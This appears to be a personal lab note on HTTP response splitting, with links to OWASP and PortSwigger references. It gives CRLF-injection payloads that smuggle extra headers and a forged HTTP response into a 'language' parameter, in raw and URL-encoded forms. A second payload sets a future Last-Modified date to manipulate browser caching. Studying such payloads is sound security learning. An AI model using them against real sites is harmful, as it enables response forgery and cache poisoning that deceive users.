 # HTTP SPLITTING

## (part 1)

Using [urlencoder](https://www.urlencoder.org/) under 'destination newline seperator' select 'Unix'

```
language=enContent-Length: 0HTTP/1.1 200 OKContent-Type: text/htmlContent-Length: 10Test
```

turns to

```
language%3Den%0AContent-Length%3A%200%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2010%0A%3Chtml%3ETest%3C%2Fhtml%3E%0A%0A
```

Note: 
But you will notice that using the `%0a` works while `%0a%0d` doesn't. This is due to the underlying os environment that the application is running on: windows uses two characters for the *CR LF* sequence, while unix only uses *LF*.

| Environment | CRLF Used | encoded |
| ----------- | --------- | ------- |
| Windows     | CRLF      | %0d%0a  |
| Unix        | LF        | %0a     |

[https://stackoverflow.com/questions/1552749/difference-between-cr-lf-lf-and-cr-line-break-types](https://stackoverflow.com/questions/1552749/difference-between-cr-lf-lf-and-cr-line-break-types)

### CRLF / HTTP header injection

[https://owasp.org/www-community/attacks/HTTP_Response_Splitting](https://owasp.org/www-community/attacks/HTTP_Response_Splitting)

[https://portswigger.net/kb/issues/00200200_http-response-header-injection](https://portswigger.net/kb/issues/00200200_http-response-header-injection)

### log poisoning using CRLF

[https://www.netsparker.com/blog/web-security/crlf-http-header/](https://www.netsparker.com/blog/web-security/crlf-http-header/)

## (part 2)

Note: inject the `Last-Modified` date to a future date which forces the browser to send an `If-Modified-Since` request header to future requests *encode uri for below*

```
language=enContent-Length: 0HTTP/1.1 200 OKContent-Type: text/htmlLast-Modified: Fri, 1 Jan 2030 00:00:00 GMTContent-Length: 4Test
```
